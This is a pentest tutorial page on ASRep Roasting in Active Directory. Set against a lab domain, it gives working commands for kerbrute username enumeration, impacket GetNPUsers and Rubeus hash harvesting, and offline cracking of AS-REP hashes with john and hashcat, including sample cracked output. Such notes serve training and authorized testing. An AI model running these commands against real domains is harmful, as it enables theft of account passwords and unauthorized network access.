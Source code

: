 ## ASRep Roasting

For an overview of how Kerberos works, please check out my blog:

 https://heartburn.dev/kerberos-fundamentals/ 

ASRep Roasting is possible when a user is not required to send pre-authentication data to the KDC before being granted a TGT. This TGT is then signed with the secret of that user, which can be taken offline to crack.

Bonus Note: Thanks to Charlie Clark (@exploitph), it's now possible to use an account with `DONT_REQ_PREAUTH` to perform kerberoasting! It has recently been implemented into Rubeus. Read about it here:

 https://www.semperis.com/blog/new-attack-paths-as-requested-sts/ 

You will need a valid username to perform this attack and the `DONT_REQ_PREAUTH` setting must be enabled for your target user.

First, you may want to use `kerbrute` to check if your list of usernames is valid against the target domain. Maybe you collected these on LinkedIn, or their staff about us page. It's available here:

 https://github.com/ropnop/kerbrute 

```bash
./kerbrute_linux_amd64 userenum -d MATRIX.LOCAL usernames.txt
```

Once you have valid users, you can check for Kerberos Pre-auth being disabled using impacket.

```bash
impacket-GetNPUsers -dc-ip 10.10.10.10 MATRIX.LOCAL -usersfile usernames.txt -outputfile hashes.txt
```

If you're already on the target machine, you can search for all user's that don't require pre-auth using PowerView and then perform the attack with Rubeus.

```powershell
Get-DomainUser -PreAuthNotRequired
Rubeus.exe asreproast /user:neo /nowrap
```

The resulting hash can be cracked with hashcat, or john, if you specify the output to be job in the previous commands.

```bash
# John
john --format=krb5asrep --wordlist=rockyou.txt neo.hash
weakpassword        ($krb5asrep$neo@MATRIX.LOCAL)

# Hashcat
hashcat.exe -a 0 -m 18200 neo.hash rockyou.txt
```

Note: To crack with hashcat, you may have to add `23$` to the start of the hash rather than `18$`. 